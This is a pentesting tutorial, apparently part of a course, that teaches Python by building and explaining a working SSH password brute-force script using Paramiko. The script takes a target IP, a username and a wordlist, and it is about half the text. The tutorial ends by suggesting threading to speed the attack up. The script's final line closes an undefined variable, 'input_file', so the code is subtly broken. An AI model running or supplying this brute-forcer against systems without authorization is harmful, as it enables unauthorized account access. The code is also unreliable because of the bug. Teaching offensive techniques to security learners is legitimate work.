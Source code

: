 The powerful Python language is supported by a number of modules that easily extend its capabilities. Paramiko is an SSHv2 implementation that will be useful in building SSH clients and servers.

The example below shows one way to build an SSH password brute force attack script. As is often the case in programming, there rarely is a single correct answer for these kinds of applications. As a penetration tester, your usage of programming languages will be different for developers. While they may care about best practices and code hygiene, your goal will more often be to end with a code that works as you want it to.

By now, you should be familiar with the "try" and "except" syntax. This script has one new feature, "def". "Def" allows us to create custom functions, as seen below.  The "ssh_connect" function is not native to Python but built using Paramiko and the "paramiko.SSHClient()" function.  

```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```

Reading the code, you will notice several distinct components.

**Imports:** We import modules we will use inside the script. As discussed earlier, we will need Paramiko to interact with the SSH server on the target system. "Sys" and "os" will provide us with the basic functionalities needed to read a file from the operating system (our password list in this case). As we are using Paramiko to communicate with the SSH server, we do not need to import "socket". 

![](https://i.imgur.com/t7BfROX.png)  

**Inputs:** This block will request input from the user. An alternative way to do this would be to accept the user input directly from the command line as an argument using "sys.argv[]".

![](https://i.imgur.com/qFQLbW6.png)  

**SSH Connection:** This section will create the "ssh_connect" function. Successful authentication will return a code 0, a failed authentication will return a code 1.

![](https://i.imgur.com/TyBgljF.png)  

**Password list:** We then open the password file supplied earlier by the user and take each line as a password to be tried.  

![](https://i.imgur.com/lTJu912.png)  

**Responses:** The script tries to connect to the SSH server and decides on an output based on the response code. Please note the response code here is the one generated by Paramiko and not an HTTP response code. The script exits once it has found a valid password.  

![](https://i.imgur.com/xnADNJo.png)  

As you will see, the scripts run slower than we would expect. To improve speed, you may want to look into threading this process.